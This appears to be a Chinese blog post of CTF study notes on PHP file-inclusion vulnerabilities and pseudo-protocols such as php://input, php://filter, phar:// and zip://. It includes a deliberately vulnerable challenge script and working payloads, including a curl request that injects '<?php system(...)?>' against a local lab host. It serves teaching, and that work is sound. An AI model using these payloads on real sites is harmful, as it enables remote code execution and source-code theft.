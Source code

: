 ```yaml
---

layout: post
title: 文件包含
subtitle: 文件包含
date: 2020-08-30
author: mr_king
header-img: img/background.jpg
catalog: true
tags: 
    -文件包含
    -学习笔记
---
```


# 文件包含

在php.ini里有两个重要的参数allow_url_fopen和allow_url_include

allow_url_fopen:默认值是ON，允许url里的封装协议访问文件

allow_url_include:默认值是OFF,不允许包含url里的封装协议包含文件

#### php://input

php://input 是个可以访问请求的原始数据的只读流，可以读取到来自POST的原始数据。但当 enctype=”multipart/form-data” 的时候 php://input 是无效的。

**利用条件：**

1. allow_url_include = On。
2. 对allow_url_fopen不做要求。

```html
http:/xxx/index.php?file=php://input
```



**题目：**

```php
<meta charset="utf-8">
<?php
error_reporting(0);
var_dump(file_get_contents("php://input"));
$file = $_GET["file"];
if (stristr($file, "filter") || stristr($file, "zip://") || stristr($file, "phar://") || stristr($file, "data:")) {
    exit('hack');
}
if($file){
    if($file!='https://www.baidu.com'){
        echo "tips:flag在根目录下，了解php伪协议";
        include($file);
    }

}
else{
    echo '<a href="?file=http://www.baidu.com">click go baidu</a>';
}
```

```url
payload:http://127.0.0.1/include_file/include_input.php?file=php://input
--date ="<?php system('dir');?>"
```

```curl
curl -X POST -H 'Content-Type: application/x-www-form-urlencoded' -i 'http://127.0.0.1/include_file/include_input.php?file=php://input' --data '<?php system('\''dir'\'');?>'
```

## php:filter

一般用于任意文件读取，有时也可以用于getshell.在双OFF的情况下也可以使用.

php://filter是一种元封装器，用于数据流打开时筛选过滤应用。这对于一体式（all-in-one）的文件函数非常有用。类似readfile()、file()、file_get_contents(),在数据流读取之前没有机会使用其他过滤器。



|           名称            | 描述                                                         |
| :-----------------------: | ------------------------------------------------------------ |
| resource=<要过滤的数据流> | 这个参数是必须的。它指定了你要筛选过滤的数据流。             |
|   read=<读链的筛选列表>   | 参数可选。可以设定一个或多个过滤器名称，以管道符(\|)分隔     |
| *write=<写链的筛选列表>*  | 该参数可选。可以设定一个或多个过滤器名称，以管道符(\|)分隔   |
|  *<；两个链的筛选列表>*   | 任何没有以 *read=* 或 *write=* 作前缀 的筛选器列表会视情况应用于读或写链。 |

```curl
php://filter/[read/write]=string.[rot13/strip_tags/…..]/resource=xxx
```

filter和string过滤器连用可以对字符串进行过滤。filter的read和write参数有不同的应用场景。read用于include()和file_get_contents(),write用于file_put_contents()中。

```url
php://filter/convert.base64-[encode/decode]/resource=xxx
```

这是使用的过滤器是convert.base64-encode.它的作用就是读取upload.php的内容进行base64编码后输出。可以用于读取程序源代码经过base64编码后的数据

## **file://**

file://伪协议在双OFF的时候也可以用，用于本地文件包含

注：file://协议必须是绝对路径

## **phar://**

PHP 归档，常常跟文件包含，文件上传结合着考察。说通俗点就是php解压缩包的一个函数，解压的压缩包与后缀无关。

```
phar://test.[zip/jpg/png…]/file.txt
```

其实可以将任意后缀名的文件(必须要有后缀名)，只要是zip格式压缩的，都可以进行解压，因此上面可以改为phar://test.test/file.txt也可以运行。

## **zip://,bzip2://, zlib://**

在双OFF的时候也可以用，

```
zip://test.zip%23file.txt
```

和phar://一样用于读取压缩文件，不过对于"zip://test.zip#file.txt"中的"#"要编码为"%23".因为url的#后的内容不会被传送

## **data://text/plain;base64,base编码字符串**

很常用的数据流构造器，将读取后面base编码字符串后解码的数据作为数据流的输入